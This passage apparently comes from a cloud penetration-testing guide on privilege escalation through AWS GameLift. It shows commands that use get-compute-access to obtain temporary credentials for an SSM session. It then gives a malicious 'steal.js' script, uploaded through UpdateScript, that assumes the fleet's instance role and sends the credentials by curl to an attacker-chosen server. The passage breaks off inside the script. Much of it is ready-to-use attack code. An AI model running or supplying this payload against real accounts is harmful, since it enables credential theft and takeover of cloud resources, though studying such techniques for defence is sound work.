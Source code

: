 You can use a `get-compute-access` providing that the active fleet is based on a build with SDK version 5.

```bash
export FLEET_ID=fleet-d478517d-10df-4923-892f-d765cd6ec54e
export INSTANCE_ID=i-09f1b3e73d700767
aws gamelift get-compute-access --fleet-id $FLEET_ID --compute-name $INSTANCE_ID 
```

This returns a set of temporary credentials to connect via `ssm start-session` command, so you do not need to modify fleet’s port settings with `update-fleet-port-settings` command.

```bash
export AWS_ACCESS_KEY_ID=
export AWS_SECRET_ACCESS_KEY=
export AWS_SESSION_TOKEN=

aws ssm start-session --target $INSTANCE_ID
```

**Potential Impact:** Privilege escalation to a different role attached to an active Gamelift fleet.

### gamelift:UpdateScript

Another way to sneak into script-based fleets is to update a script that is currently used by working fleets. According to AWS [documentation](https://docs.aws.amazon.com/gamelift/latest/apireference/API_UpdateScript.html), “once the script is updated and acquired by a fleet instance, the new version is used for all new game sessions.” This means a malicious script uploaded by an attacker will be started by the fleet after update.

Example of the malicious `steal.js` script. Remember to set your own `exfilURL`: 

```jsx
const exfilURL = "http://your.server/"

// Exploit part
const cp = require("child_process");
const fs = require('fs');
const os = require('os');

function readJsonFile(filePath) {
  try {
    const data = fs.readFileSync(filePath, 'utf8');
    return JSON.parse(data);
  } catch (error) {
    console.error('Error reading or parsing JSON file:', error.message);
    return null;
  }
}
var pathToMetadata = "";
if (os.platform == "linux") {
    pathToMetadata = '/local/gamemetadata/gamelift-metadata.json';
  } else {
    pathToMetadata = 'C:\\GameMetadata\\gamelift-metadata.json';
} 
const jsonObject = readJsonFile(pathToMetadata);

const assume_role_cmd = `aws sts assume-role --role-arn ${jsonObject.instanceRoleArn} --role-session-name PrivEsc | curl -X POST --data-binary @- ${exfilURL}`

cp.exec(assume_role_cmd)

// AWS Realtime script example
'use strict';

const configuration = {
```